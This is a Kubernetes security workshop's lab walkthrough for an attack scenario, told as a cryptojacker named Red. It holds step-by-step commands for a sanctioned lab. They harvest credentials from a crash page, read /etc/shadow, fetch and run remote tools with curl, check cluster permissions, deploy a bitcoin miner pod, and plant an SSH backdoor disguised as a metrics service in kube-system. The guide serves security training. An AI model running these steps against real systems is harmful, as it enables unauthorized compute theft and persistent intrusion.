 # Free Compute: Scenario 1 Attack

## Warning

In these Attack scenarios, we're going to be doing a lot of things that can be crimes if done without permission. Today, you have permission to perform these kinds of attacks against your assigned training environment.

In the real world, use good judgment. Don't hurt people, don't get yourself in trouble. Only perform security assessments against your own systems, or with written permission from the owners.

## Backstory

### Name: __Red__

* Opportunist
* Easy money via crypto-mining
* Uses automated scans of web IP space looking for known exploits and vulnerabilities

### Motivations

* __Red__ has been mining `bitcoinero` for a few months now, and it's starting to gain some value
* __Red__ is looking for free-to-them compute on which to run miners
* __Red__ purchased some leaked credentials from the dark web

## Thinking In Graphs

Attacking a system is a problem-solving process similar to troubleshooting: __Red__ begins with a goal (deploy an unauthorized cryptominer) but doesn't really know what resources are available to achieve that goal. They will have to start with what little they already know, perform tests to learn more, and develop a plan. The plan is ever-evolving as new information is gleaned.

The general process looks like this:

![attack lifecycle](img/attack-lifecycle.png)

* __Study__

    In this phase, use enumeration tools to start from the information you have, and get more information. Which tools to use will depend on the situation. For example, `nmap` is commonly used to enumerate IP networks. `nikto`, `burp`, and `sqlmap` are interesting ways to learn more about web applications. Windows and Linux administrative utilities such as `uname`, `winver`, and `netstat` provide a wealth of information about their host OSes.

* __Plan__

    In this phase, think about everything you currently know, and what actions you can take based on that knowledge. If you think you can do something that will help you get closer to your goal, move onto Attack. Otherwise, go back to Study and try to learn more.

* __Attack Something__

    In this phase, you take some action in the hope of getting closer to your goal. This may be running an exploit tool against a buggy piece of software, launching some kind of credential-guessing utility, or even just running a system command like kubectl apply. Your success or failure will teach you more about your target and situation. Move on to Study, Persist, or Win, as appropriate.

* __Persist__

    In this optional phase, you take some action to make it easier to re-enter the system or network at a later time. Common options are running a malware Remote Access Tool such as Meterpreter, creating new accounts for later use, and stealing passwords.

* __Win__

    Eventually, you may achieve your goals. Congratulations! Now you can stop hacking and begin dreaming about your next goal.

## Getting Access

__Red__ team found an app online and ran a [dictionary attack](https://www.techtarget.com/searchsecurity/definition/dictionary-attack) against it.  Some valid paths were `/crash` and `/admin`.  Let's try to find an exploit!

To find the compromised website, run the following:
```
./scenario_1/attack-1-helper.sh
```

In your browser, go to URL provided (e.g. `http://<IP>:8080/`)

Hmm.  "Nothing to see here."?  They're probably wrong.

Let's try the Admin page: `http://<IP>:8080/admin`.  Hrm.  It's asking for credentials.  Since it was a browser popup (instead of an in-app request), it probably uses [Basic Auth](https://en.wikipedia.org/wiki/Basic_access_authentication).

Let's try the Crash page: `http://<IP>:8080/crash`

Looks like we've crashed the app!  And it prints out all of the environment variables.  Oh goodie.  There's two that seem to be especially interesting (AUTH_USERNAME and AUTH_PASSWORD).  Let's go back to the Admin page and try those.

Go back to the Admin page: `http://<IP>:8080/admin` and enter the credentials we just got.  

And we're in!  Looks like Frank left a backdoor to run some commands.  Let's see what we can learn:

```console
id
```

```console
uname -a
```

```console
cat /etc/lsb-release
```

```console
ps -ef
```

```console
df -h
```

Note that there are very few processes running. This is probably a container.

```console
cat /etc/shadow
```
```console
ls -l /
```
```console
ls -l $PWD
```
```console
echo $PATH
```

Can we add files to the default PATH?
```console
touch /usr/local/bin/foo && ls /usr/local/bin/
```

```console
cd /usr/local/bin; curl https://pentestmonkey.net/tools/unix-privesc-check/unix-privesc-check-1.4.tar.gz | tar -xzvf -; unix-privesc-check-1.4/unix-privesc-check standard
```

That's not getting us anywhere. Let's follow-up on that idea that it's maybe a container and verify with [amicontained](https://github.com/genuinetools/amicontained):

```console
cd /usr/local/bin; curl -L -o amicontained https://github.com/genuinetools/amicontained/releases/download/v0.4.7/amicontained-linux-amd64; chmod 555 amicontained; ./amicontained
```

This tells us several things:

* We are in a container, and it's probably managed by Kubernetes
* Some security features are not in use (userns)
* Seccomp is disabled, but a number of Syscalls are blocked
* We don't have any exciting capabilities. <a href="http://man7.org/linux/man-pages/man7/capabilities.7.html" target="_blank">Click for more capabilities info.</a>

Now let's inspect our Kubernetes environment:

```console
env | grep -i kube
```
```console
ls /var/run/secrets/kubernetes.io/serviceaccount
```

# Deploy Bitcoin miner + backdoor

We have typical Kubernetes-related environment variables defined, and we have anonymous access to some parts of the Kubernetes API. We can see that the Kubernetes version is modern and supported -- but there's still hope if the Kubernetes security configuration is sloppy. Let's check for that next:

```console
cd /usr/local/bin; curl -LO https://dl.k8s.io/release/v1.28.10/bin/linux/amd64/kubectl; chmod 555 kubectl
```
```console
kubectl get all
```
What workloads are deployed in all of the namespaces?
```console
kubectl get all -A
```
What operations can I run on this cluster?
```console
kubectl auth can-i --list
```
Can I create pods?
```console
kubectl auth can-i create pods
```

It looks like we have hit the jackpot! Let's see if we can start mining some crypto.
```console
kubectl apply -f https://raw.githubusercontent.com/lastcoolnameleft/aks-ctf/refs/heads/main/workshop/scenario_1/bitcoinero.yaml; sleep 10; kubectl get pods
```

We can see the bitcoinero pod running, starting to generate a small but steady stream of cryptocurrency. But we need to take a few more steps to protect our access to this lucrative opportunity. Let's deploy an SSH server on the cluster to give us a backdoor in case we lose our current access later.

```console
kubectl apply -n kube-system -f https://raw.githubusercontent.com/lastcoolnameleft/aks-ctf/refs/heads/main/workshop/scenario_1/backdoor.yaml
```

Wait ~10 seconds for the Public IP to be exposed
```console
kubectl get svc metrics-server-service -n kube-system -o table -o jsonpath='{.status.loadBalancer.ingress[0].ip}'
```

Our Bitcoin miner is now deployed and we've also deployed an SSH backdoor.  Mission Accomplished.

## Completion

You've completed Scenario 1 Attack.  Now let's go to [Scenario 1 Defense](scenario_1_defense/).
